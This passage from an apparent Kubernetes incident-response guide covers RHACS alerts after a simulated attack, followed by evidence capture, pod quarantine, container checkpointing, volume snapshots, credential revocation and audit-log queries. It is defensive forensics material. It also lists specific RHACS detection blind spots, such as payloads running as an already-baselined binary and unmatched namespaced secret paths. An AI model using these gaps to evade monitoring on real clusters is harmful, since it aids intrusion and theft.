

Within seconds, RHACS raised the following, each with full process details (path, arguments, UID, parent process and time):
- **Unauthorized Process Execution**, for every new binary after the baseline locked
- **Kubernetes Actions: Exec into Pod**, including the full command text
- **Shell Spawned by Java Application**
- **Process Targeting Cluster Kubelet Endpoint** and **Process Targeting Kubernetes Service Endpoint**
- the custom token-path, `kubectl` and file-activity policies



**Risk → victim-a → Process discovery** shows the deployment's full process history and Event Timeline. Every binary outside the locked baseline is flagged. Only `/opt/app-root/bin/python` is in the baseline, so the attacker's in-memory `python` payload isn't flagged:









File Activity Monitoring reported the implant creation, its permission change and the web shell:



**Node file activity** is reported only for changes made by **host processes**, not by pods. To simulate an administrator's SSH session, run a transient systemd unit on the node:

```bash
hostx $C 'systemd-run --wait --quiet sh -c "echo v1 > /etc/ft-canary.conf"'
sleep 60   # let the FAM host scan (every 30 s) pick up the inode
hostx $C 'systemd-run --wait --quiet sh -c "echo v2 >> /etc/ft-canary.conf; rm -f /etc/ft-canary.conf"'
```

The alert appears under **Violations → Nodes**:



> **Important:** The same edits made from a privileged pod with `chroot /host` were **not** reported as node events. RHACS attributes them to the pod, so cover privileged pods with deployment-source file policies or process detection.

**What RHACS did not detect:**
- **Failed exec attempts** (`ENOENT` and `EACCES`) produce no process events. They appear only as text in the parent shell's arguments.
- **A process whose path is already in the baseline** isn't flagged. The in-memory payload ran as `python`, the same binary as the app.
- The default **Process Targeting Kubernetes Service Endpoint** policy matches only cluster-scoped API paths (such as `/api/v1/secrets`), **not namespaced paths** (`/api/v1/namespaces/<ns>/secrets`).
- RHACS stores process arguments, so **a bearer token passed on a command line ends up in the alert**. Restrict access to RHACS accordingly.

## 6. Respond and collect evidence

> **Don't delete the pod.** Don't let RHACS kill it either. Deleting the pod destroys the memory and the writable layer (see [section 8](#8-rhacs-enforcement-and-the-responder)).

### 6.1 Scope

```bash
oc get pods -A -o json | jq -r '.items[] | select(.spec.serviceAccountName=="victim-sa") | "\(.metadata.namespace)/\(.metadata.name) \(.spec.nodeName)"'
IMG=$(oc get pod -n $NSV $POD -o jsonpath='{.status.containerStatuses[0].imageID}')
oc get pods -A -o json | jq -r --arg i "$IMG" '.items[] | select([.status.containerStatuses[]?.imageID] | index($i)) | "\(.metadata.namespace)/\(.metadata.name)"'
```

Searching by image digest also returns pods that only share the same base image, so review the results.

### 6.2 Preserve the node

Cordoning a node doesn't stop ROSA from replacing it. Turn off AutoRepair on its machine pool:

```bash
rosa edit machinepool -c $CLUSTER --autorepair=false forensics
oc adm cordon $NODE
oc label node $NODE forensics/hold=true
```

### 6.3 Capture volatile state before isolating

```bash
CID=$(oc get pod -n $NSV $POD -o jsonpath='{.status.containerStatuses[0].containerID}' | sed 's#cri-o://##')
PID=$(hostx $C "crictl inspect $CID | jq -r .info.pid")
hostx $C "crictl inspect $CID"        > evidence/crictl-inspect.json   # contains env-var secrets
hostx $C "pstree -aplnt $PID"         > evidence/pstree.txt
hostx $C "nsenter -t $PID -n ss -tanpie" > evidence/sockets.txt
oc exec -n forensics-tools $C -- sh -c "nsenter -t $PID -n timeout 20 tcpdump -i any -nn -w -" > evidence/pre-isolation.pcap
```

`pstree` showed the attacker's process (`python -c … rot13 …`) as a child of the app. `ss` showed `ESTAB … -> <c2-service-ip>:4444 users:(("python",…))`.

### 6.4 Isolate the pod

```bash
cat <<'EOF' | oc apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata: {name: quarantine-deny-all, namespace: forensics-victim}
spec:
  podSelector: {matchLabels: {quarantine: "true"}}
  policyTypes: [Ingress, Egress]
EOF
oc label pod -n $NSV $POD quarantine=true app=victim-a-quarantined forensics/hold=true --overwrite
```

Changing the `app` label detaches the pod from its ReplicaSet, which starts a replacement. The app logged `c2 lost: timed out` within 25 seconds. **Kubelet liveness probes still pass under deny-all**: the quarantined pod ran for 30 minutes with 0 restarts. If an app's liveness check depends on a dependency that the isolation now blocks, checkpoint it first.

> **Tip:** Once detached, the quarantined pod appears in RHACS as a separate bare-pod entity (for example `victim-a-67996bb77b-w76sf`) with an empty history. The attack's process history and Event Timeline stay with the **original Deployment** (`victim-a`). Look there under **Risk → victim-a → Process discovery**.

### 6.5 Checkpoint the container

The kernel keeps the cut C2 socket in `ESTAB`, so the checkpoint still fails. Close the socket from the node (its state is already in `sockets.txt`), then checkpoint:

```bash
checkpoint $NODE $NSV $POD app                                   # HTTP 500: Connected TCP socket
hostx $C "nsenter -t $PID -n ss -K -tn '( dport = :4444 )'"      # close the C2 socket
checkpoint $NODE $NSV $POD app                                   # HTTP 200
```

Every checkpoint is recorded in the API audit log (`create nodes/proxy …/checkpoint/<ns>/<pod>/<container>`) and in the node's CRI-O journal (`Checkpointed container: <id>`).

### 6.6 Copy, verify and analyse the checkpoint

```bash
F=$(hostx $C "ls -t /var/lib/kubelet/checkpoints | grep victim-a | head -1")
hostx $C "sha256sum /var/lib/kubelet/checkpoints/$F"
oc exec -n forensics-tools $C -- cat /host/var/lib/kubelet/checkpoints/$F > evidence/$F   # binary-safe
shasum -a 256 evidence/$F                                                                 # must match

cd evidence && podman run --rm -e F=$F -e RUNID=$RUNID -v "$PWD":/evidence:Z localhost/forensics-analysis:1 sh -c '
  checkpointctl inspect "$F" --ps-tree-cmd --sockets --stats
  checkpointctl inspect "$F" --ps-tree-env | grep -E "CANARY|AWS_ROLE"
  checkpointctl memparse "$F" --pid 402 --search "FORENSIC-CANARY-MEMORY-$RUNID"
  tar --force-local -tf "$F" | grep -E "rootfs-diff|deleted"'; cd ..
```

The checkpoint showed:
- the process tree, including the attacker's process and its command line
- open sockets (the C2 connection `CLOSE` after `ss -K`, and DNS)
- the environment, including the canary secret and the AWS role ARN
- the **plaintext in-memory canary**, found with `memparse`

Use the PID for the attacker's process from `--ps-tree-cmd` output; it was 402 in this test.

> **Important:** The checkpoint's `rootfs-diff.tar` contains **added** files and a `deleted.files` list, but **not files modified from the image**. In this test, the tampered `pyvenv.cfg` was missing. Always collect the overlay `upperdir` as well (next step). Checkpoint filenames contain `:`, so use `tar --force-local`.

### 6.7 Collect the writable layer

```bash
MERGED=$(hostx $C "crictl inspect $CID | jq -r .info.runtimeSpec.root.path")
UPPER=$(hostx $C "findmnt -n -o OPTIONS --target $MERGED | tr ',' '\n' | grep ^upperdir= | cut -d= -f2")
hostx $C "cd $UPPER && find . -mindepth 1 \( -type f -o -type c \) -printf '%M %s %p\n'"
oc exec -n forensics-tools $C -- sh -c "cd /host$UPPER && tar -cf - --numeric-owner ." > evidence/upperdir.tar
```

The upper directory held the modified `pyvenv.cfg`, a whiteout (character device) for the deleted file, and every added file, including `/tmp/loot.json` (the stolen secrets).

### 6.8 Logs, objects and the image

```bash
oc logs -n $NSV $POD --timestamps > evidence/app.log
oc adm node-logs $NODE -u kubelet --since=-2h > evidence/kubelet.log
oc adm node-logs $NODE -u crio --since=-2h > evidence/crio.log
oc adm inspect ns/$NSV --dest-dir=evidence/inspect
oc get events -n $NSV -o json > evidence/events.json
skopeo copy --override-os linux --override-arch amd64 "docker://$IMG" oci-archive:evidence/image.oci.tar
```

### 6.9 Snapshot the persistent volume and analyse it in isolation

```bash
cat <<'EOF' | oc apply -f -
apiVersion: snapshot.storage.k8s.io/v1
kind: VolumeSnapshot
metadata: {name: victim-d-data-forensic, namespace: forensics-victim}
spec: {volumeSnapshotClassName: csi-aws-vsc, source: {persistentVolumeClaimName: victim-d-data}}
EOF
SNAPH=$(oc get volumesnapshotcontent $(oc get volumesnapshot victim-d-data-forensic -n $NSV -o jsonpath='{.status.boundVolumeSnapshotContentName}') -o jsonpath='{.status.snapshotHandle}')
```

A PVC can only restore from a snapshot in its own namespace. To analyse the evidence in a separate namespace, import the EBS snapshot statically. The restored files keep the source namespace's UID and SELinux MCS labels, so the reader must run as root with `spc_t`:

```bash
cat <<EOF | oc apply -f -
apiVersion: v1
kind: Namespace
metadata:
  name: forensics-analysis
  labels: {security.openshift.io/scc.podSecurityLabelSync: "false", pod-security.kubernetes.io/enforce: privileged}
---
apiVersion: snapshot.storage.k8s.io/v1
kind: VolumeSnapshotContent
metadata: {name: victim-d-evidence-import}
spec:
  deletionPolicy: Retain
  driver: ebs.csi.aws.com
  source: {snapshotHandle: $SNAPH}
  volumeSnapshotClassName: csi-aws-vsc
  volumeSnapshotRef: {name: victim-d-evidence, namespace: forensics-analysis}
---
apiVersion: snapshot.storage.k8s.io/v1
kind: VolumeSnapshot
metadata: {name: victim-d-evidence, namespace: forensics-analysis}
spec: {volumeSnapshotClassName: csi-aws-vsc, source: {volumeSnapshotContentName: victim-d-evidence-import}}
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata: {name: victim-d-evidence, namespace: forensics-analysis}
spec:
  storageClassName: gp3-csi
  accessModes: [ReadWriteOnce]
  resources: {requests: {storage: 1Gi}}
  dataSource: {apiGroup: snapshot.storage.k8s.io, kind: VolumeSnapshot, name: victim-d-evidence}
---
apiVersion: v1
kind: Pod
metadata: {name: evidence-reader, namespace: forensics-analysis}
spec:
  securityContext: {runAsUser: 0, seLinuxOptions: {type: spc_t}}
  containers:
  - {name: r, image: $MIN, command: ["sleep", "3600"], volumeMounts: [{name: ev, mountPath: /evidence, readOnly: true}]}
  volumes: [{name: ev, persistentVolumeClaim: {claimName: victim-d-evidence, readOnly: true}}]
EOF
oc wait --for=condition=Ready pod/evidence-reader -n forensics-analysis --timeout=5m
oc exec -n forensics-analysis evidence-reader -- sh -c 'ls -la /evidence; cat /evidence/stolen.txt'
```

A snapshot of the worker's root volume (`aws ec2 create-snapshot`) also works. A 300 GB volume was still `pending` after 30 minutes, though, so start it early. Agree whole-node evidence collection with Red Hat Support.

### 6.10 Revoke the stolen credentials

```bash
# Kubernetes: recreating the ServiceAccount invalidates every token bound to it
oc delete sa victim-sa -n $NSV && oc create sa victim-sa -n $NSV
curl -sk -H "Authorization: Bearer $(cat sa.token)" "$API/api/v1/namespaces/$NSV/secrets" -o /dev/null -w '%{http_code}\n'   # 401

# AWS: revoke active sessions for the workload role
NOW=$(date -u +%FT%TZ)
aws iam put-role-policy --role-name forensics-victim-role --policy-name AWSRevokeOlderSessions \
  --policy-document "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Deny\",\"Action\":[\"*\"],\"Resource\":[\"*\"],\"Condition\":{\"DateLessThan\":{\"aws:TokenIssueTime\":\"$NOW\"}}}]}"
```

Recreating the ServiceAccount also removes its generated image-pull secret. Pods referencing it log `FailedToRetrieveImagePullSecret` until the secret is regenerated.

### 6.11 Store the evidence with integrity

```bash
for f in evidence/*; do [ -f "$f" ] || continue
  h=$(shasum -a 256 "$f" | cut -d' ' -f1); echo "$(date -u +%FT%TZ),$(whoami),$f,$h" >> custody.csv
  aws s3 cp "$f" "s3://$BUCKET/$f" --metadata sha256=$h
done
# Then remove checkpoint archives from the node; they contain memory and secrets
oc exec -n forensics-tools $C -- find /host/var/lib/kubelet/checkpoints -maxdepth 1 -type f -name 'checkpoint-*.tar' -delete
```

Attempting to delete a locked object version is refused with *"Access Denied because object protected by object lock"*.

## 7. Investigate with the audit log and CloudTrail

```bash
LG=ctllogfwd-$CLUSTER
# Every use of the stolen service account token
aws logs filter-log-events --log-group-name $LG --filter-pattern \
  '{ $.user.username = "system:serviceaccount:forensics-victim:victim-sa" && $.objectRef.resource = "secrets" }' \
  --query 'events[].message' --output json | jq -r '.[]' | jq -c \
  '{ts: .requestReceivedTimestamp, verb, code: .responseStatus.code, ua: .userAgent, src: .sourceIPs,
    jti: .user.extra["authentication.kubernetes.io/credential-id"], pod: .user.extra["authentication.kubernetes.io/pod-name"],
    stale: .annotations["authentication.k8s.io/stale-token"]}'
# Exec requests, including the command in requestURI
aws logs filter-log-events --log-group-name $LG --filter-pattern '{ $.objectRef.subresource = "exec" && $.objectRef.namespace = "forensics-victim" }'
# Responder checkpoint calls
aws logs filter-log-events --log-group-name $LG --filter-pattern '{ $.objectRef.resource = "nodes" && $.objectRef.subresource = "proxy" }'
# Who deleted a pod
aws logs filter-log-events --log-group-name $LG --filter-pattern '{ $.objectRef.name = "<pod>" && $.verb = "delete" }'
# AWS role misuse
aws cloudtrail lookup-events --lookup-attributes AttributeKey=ResourceName,AttributeValue=arn:aws:iam::$ACCOUNT:role/forensics-victim-role
```

What the logs showed:
- **Each request made with a stolen bound token identifies that exact token and its origin.** `user.extra` carries `credential-id: JTI=…`, plus `pod-name`, `pod-uid` and `node-name`.
